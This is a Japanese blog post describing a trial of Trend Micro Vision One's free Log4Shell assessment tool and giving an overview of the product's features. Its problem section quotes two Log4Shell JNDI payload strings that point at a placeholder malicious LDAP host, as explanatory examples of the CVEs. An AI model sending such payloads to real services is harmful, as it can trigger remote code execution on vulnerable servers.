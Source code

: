 ```yaml
---
title: "[2022-01-01]Trend Micro Vision Oneを試してみる"
category: soc
tags: security, trend-micro-vision-one
created_at: '2021-12-23T21:32:07+09:00'
updated_at: '2022-01-01T20:33:49+09:00'
published: true
number: 127
---
```


11月末から続いているLog4jの脆弱性について各セキュリティスコアが高レベルで指定されており、これを気にZTAの文脈でセキュリティ製品を見ていこうと思います。今回はちょうど無償提供されているTrend Micro Vision Oneを軽く触ってみようと思います。

<img width="640" alt="thumbnail" src="https://img.esa.io/uploads/production/attachments/16651/2022/01/01/97367/af125a37-fe8c-4c97-8252-83361339e8db.png">

# PROBLEM
- 11月末から続いているLog4jの脆弱性について各セキュリティスコアが高レベルで指定されている
    - JNDIクエリ「${jndi:ldap://malicious-server.host/aaa}」により不正なJavaクラスが実行されるケースがある（[CVE-2021-44228](https://www.jpcert.or.jp/at/2021/at210050.html)）
    - JNDIクエリ「${jndi:ldap://127.0.0.1#malicious-server.host/aaa}」により不正なJavaクラスが実行されるケースがある（CVE-2021-45046）

# SOLUTION
> From: Trend Micro
> Subject: Log4Shell診断ツール ご提供開始
>
> Apache Log4j2ログ出力ライブラリの複数のバージョンに影響を与える深刻な脆弱性情報が公開されています。当診断ツールは、Log4Shellの影響を受ける可能性のあるエンドポイントとWebアプリケーションを特定することができます。また、攻撃対象領域の詳細を即座に可視化し、リスクを軽減するための措置をご案内いたします。

と言うわけで、[Trend Micro Vision Oneの一部機能が無償で提供](https://resources.trendmicro.com/Log4Shell-Vulnerability-Assessment_jp.html)されていたので確認します。Vision OneはSIEM、SOAR、EDR関連のツール。エンドポイント、サーバ、クラウド、メールおよびネットワーク全体を保護する各セキュリティ製品がセンサーとなり、各々のレイヤ―で検知した脅威や侵入の痕跡を、Threat Intelligenceを活用してサイバー攻撃の全体像を可視化します。

## Log4jShell診断ツールを試してみる
1. Trend Micro Vision Oneにログイン
2. [Log4Shell診断ツール]画面にてWindows/Mac/Linuxいずれかの診断ツールをダウンロード
3. 1分ほどで端末にインストールされ、詳細が確認できる
4. 自宅の端末で確認した結果はこちら
    - <img width="1363.5" alt="image.png (124.0 kB)" src="https://img.esa.io/uploads/production/attachments/16651/2021/12/23/97367/e63e0036-3e4a-4011-8e43-6d01e949cdea.png">

ざっと試したところ数分程度でLog4Shellの診断を行う事ができました。Intune等EMMでの展開もそれほど難しくないように思います。

## 他の機能を確認
先ほど試したLog4Shell診断ツールはTrend Micro Vision OneのAssessmentカテゴリのいち機能になります。Vision OneはSecurity Postureによる方針策定、Assessment・Thread Intelligenceによる脅威検出、XDR（EDR）による脅威応答、Zero Trust Secure Access・Mobile Securityによる脅威防御、Inventory Managementによる脅威特定から構成されています。
